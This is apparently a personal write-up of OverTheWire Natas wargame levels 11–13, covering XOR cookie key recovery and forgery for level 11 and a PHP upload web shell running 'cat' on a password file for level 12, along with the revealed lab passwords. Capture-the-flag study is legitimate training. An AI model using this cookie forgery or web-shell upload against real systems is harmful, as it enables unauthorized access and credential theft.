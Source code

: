 ```yaml
---
title: Wargames - Natas
published: false 
tags: game bandit
---
```


# ## [Level 10 -> Level 11](https://overthewire.org/wargames/natas/natas11.html)

Username: natas11
Lab URL: http://natas11.natas.labs.overthewire.org/

Source code view: 
```
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);
```

Get key:

```
function xor_encrypt($in) {
    $key = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D');
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

$data = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
echo xor_encrypt(json_encode($data));
# return qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
```

Encode new cookie:
```
$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = 'qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

echo base64_encode(xor_encrypt(json_encode($defaultdata)));
```

![Password](assets/natas/11/password.png)

password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

# ## [Level 11 -> Level 12](https://overthewire.org/wargames/natas/natas12.html)

Username: natas12
Lab URL: http://natas12.natas.labs.overthewire.org/

To obtain password you need to upload php file to server. It will be automatilcy executed. Create file with following content: 

```
<?php system("cat /etc/natas_webpass/natas13"); ?>
```

To change file name to .php use burp. Aftel all you will get password.

password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

# ## [Level 12 -> Level 13](https://overthewire.org/wargames/natas/natas13.html)

Username: natas13
Lab URL: http://natas13.natas.labs.overthewire.org/


password: 
